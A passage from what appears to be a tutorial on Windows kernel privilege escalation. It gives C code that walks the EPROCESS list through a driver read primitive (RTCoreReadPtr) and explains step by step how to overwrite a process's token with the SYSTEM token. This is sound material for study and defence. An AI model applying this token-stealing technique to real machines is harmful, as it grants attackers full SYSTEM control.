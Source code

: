 ```c
	return UniqueProcessId;
}
```

The second function, finds the kernel address of an `EPROCESS` structure for a given PID. It’s doing it by traversing the `ActiveProcessLinks` list, reading the `UniqueProcessId` value of the current `EPROCESS` and comparing it to the PID of our process:  

```c
ULONG_PTR GetEprocessByPid(DWORD Pid, WINDOWS_VERSION WinVersion) {
	DWORD CurrentPid = 0;
	ULONG_PTR CurrentEprocess = 0;
	ULONG_PTR Flink = 0;

	// start traversing from the System process
	CurrentEprocess = lpInitialSystemProcess; 
	CurrentPid = GetUniqueProcessId(lpInitialSystemProcess, WinVersion);

	while (CurrentPid != Pid) {
		// read the address for the next EPROCESS in the list
		if (!RTCoreReadPtr(CurrentEprocess + ACTIVEPROCESSLINKS_OFFSET[WinVersion], &Flink)) {
			PRINT_ERROR(L"[-] Couldn't read pointer for ActiveProcessLinks.Flink\n");
			return 0;
		}
		// the address points to the Flink field, so we need to substract the offset of ActiveProcessLinks to get the base address of the EPROCESS structure
		CurrentEprocess = Flink - ACTIVEPROCESSLINKS_OFFSET[WinVersion];
		CurrentPid = GetUniqueProcessId(CurrentEprocess, WinVersion);
	}

	return CurrentEprocess;
}
```

At last, we arrive at the final step of stealing the SYSTEM token. The following function plays a key role in this process. It takes a process PID as an argument, allowing us to specify the target process. If the supplied PID is zero, the function changes the token of the current process. Otherwise, it modifies the token of the specified target process.  

The function begins by obtaining the address of the SYSTEM token. Then, it performs a bitwise AND operation on the token address with the value `NOT 15` (equivalent to `0xFFFFFFFFFFFFFFF0`). This operation effectively zeroes out the four least significant bits, which represent the reference count of the token. By zeroing out these bits, we obtain the actual token address we need.  

Next, it locates the `EPROCESS` structure of the target process. Once we have the `EPROCESS` structure, we can retrieve the token pointer for the target process. We can retain the reference count by AND-ing the value with `0xF`.  

We construct a new value for the token by combining the current process's reference count with the address of the SYSTEM token. This new value represents the SYSTEM token with an updated reference count.  

Finally, we write this newly constructed value to the token field of the target process's `EPROCESS` structure. With this modification in place, our process now possesses SYSTEM privileges.  
